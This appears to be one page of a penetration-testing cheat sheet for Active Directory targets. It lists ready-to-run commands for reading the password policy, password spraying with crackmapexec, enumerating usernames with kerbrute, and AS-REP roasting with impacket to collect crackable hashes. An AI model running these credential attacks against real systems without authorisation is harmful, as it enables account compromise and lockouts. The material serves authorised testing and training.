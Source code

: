 # Got Username
## Get Password Policy
```bash
crackmapexec 10.10.10.10 -u 'username' -p 'password' --pass-pol 
```

```bash
enum4linux -u 'username' -p 'password' -P <ip>
```

## Password Spray
Test password against usernames in order. Won't brute force each password against each user.
```bash
crackmapexec smb 10.10.10.10 -u users.txt -p passwords.txt --no-bruteforce
```

Test each password against each username. Careful of lockout policy.
```bash
crackmapexec smb 10.10.10.10 -u users.txt -p passwords.txt
```

Credentials Found: [Next](got-credentials.md)

## Testing Usernames
```bash
kerbrute userenum -d domain.local --dc domain.local users.txt
```

## ASREPRoast
```bash
impacket-GetNPUsers domain.local/ -usersfile users.txt -format hashcat -outputfile hashes.asreproast
```

Got Hash: [Next](cracking-hashes.md#tgt)


